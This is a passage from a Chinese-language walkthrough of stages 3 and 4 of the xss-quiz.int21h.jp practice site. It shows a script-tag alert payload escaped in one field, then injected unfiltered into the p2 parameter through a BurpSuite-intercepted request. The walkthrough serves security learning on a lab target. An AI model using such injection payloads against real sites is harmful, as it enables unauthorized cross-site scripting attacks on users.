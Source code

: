 > 发现两个交互栏都有回显
>
> 实战中要看数据包，有的交互栏不易发现

查看源码

```
<b>"hello"</b> 
```

**判断能否执行 javascript 代码**

提交 js

```
<script>alert(document.domain);</script>
```

再次查看源码

```
<b>"&lt;script&gt;alert(document.domain);&lt;/script&gt;"</b>
```

> 可以看到 js 代码被转义，无法执行 js，但是不影响显示（实体名称）
>
> 此处不存在 xss

开启 BurpSuite 拦截，提交 hello

在页面源码查看第二个交互栏

```
<b>Japan</b>
```

> 在 b 标签中，可以尝试注入

在 BurpSuite 拦截，构造代码放行

```
p1=hello&p2=USA
```

```
p1=hello&p2=<script>alert(document.domain);</script>
```

查看源码

```
<b><script>alert(document.domain);</script></b>
```

> 发现未过滤，成功注入

### 1.1.4 Stage #4 在隐藏域中注入 XSS

> https://xss-quiz.int21h.jp/stage_4.php

隐藏域是用来收集或发送不可见元素的信息，对于网页的访问者来说，隐藏域是看不见的

>当表单被提交时，隐藏域就会将信息用你设置时定义的名称和值发送到服务器
